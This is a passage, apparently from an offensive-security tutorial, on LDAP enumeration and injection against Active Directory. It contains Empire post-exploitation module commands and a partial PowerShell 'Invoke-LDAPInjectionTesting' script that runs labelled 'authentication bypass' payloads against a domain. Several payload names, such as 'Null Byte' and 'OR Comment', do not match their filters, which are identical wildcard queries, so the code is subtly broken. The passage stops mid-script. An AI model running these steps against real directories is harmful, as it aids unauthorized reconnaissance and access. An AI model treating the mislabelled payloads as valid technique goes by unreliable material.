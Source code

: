 **Tool Explanation:**
- **PowerSploit**: Offensive PowerShell framework
- **LDAP Functions**: Dedicated LDAP enumeration functions
- **Injection Testing**: Test LDAP injection vulnerabilities
- **Advantages**: Offensive framework, comprehensive LDAP functions
- **Disadvantages**: Requires PowerSploit, highly detectable

#### **Empire - LDAP Enumeration Module**
```powershell
# Empire LDAP enumeration
usemodule powershell/management/ldap_query
set Query "(objectClass=user)"
set Properties "sAMAccountName,userPrincipalName"
execute
```

**Tool Explanation:**
- **Empire**: Post-exploitation framework with LDAP modules
- **LDAP Query Module**: Dedicated LDAP enumeration module
- **Custom Queries**: Execute custom LDAP queries
- **Advantages**: Framework integration, advanced LDAP capabilities
- **Disadvantages**: Requires Empire, highly detectable

### 4. Custom LDAP Injection Scripts

#### **Comprehensive LDAP Injection Testing Script**
```powershell
# Comprehensive LDAP injection testing
function Invoke-LDAPInjectionTesting {
    param([string]$BaseDN = "DC=cybercorp,DC=local")
    
    try {
        Write-Host "Comprehensive LDAP Injection Testing" -ForegroundColor Green
        Write-Host "=" * 60
        
        $injectionResults = @{
            AuthenticationBypass = @()
            InformationDisclosure = @()
            DataEnumeration = @()
            PrivilegeEscalation = @()
        }
        
        # Authentication Bypass Testing
        Write-Host "Testing Authentication Bypass..." -ForegroundColor Yellow
        
        $authBypassPayloads = @(
            @{ Name = "OR 1=1"; Filter = "(|(objectClass=*)(objectClass=*))" },
            @{ Name = "OR Comment"; Filter = "(|(objectClass=*)(objectClass=*))" },
            @{ Name = "Wildcard"; Filter = "(objectClass=*)" },
            @{ Name = "Null Byte"; Filter = "(objectClass=*)" },
            @{ Name = "Double Comment"; Filter = "(|(objectClass=*)(objectClass=*))" },
            @{ Name = "Nested OR"; Filter = "(|(|(objectClass=*)(objectClass=*)))" }
        )
        
        foreach ($payload in $authBypassPayloads) {
            try {
                Write-Host "  Testing: $($payload.Name)" -ForegroundColor Cyan
                Write-Host "    Filter: $($payload.Filter)"
                
                $results = Get-ADObject -LDAPFilter $payload.Filter -Properties sAMAccountName -ResultSetSize 10
                
                $result = @{
                    PayloadName = $payload.Name
```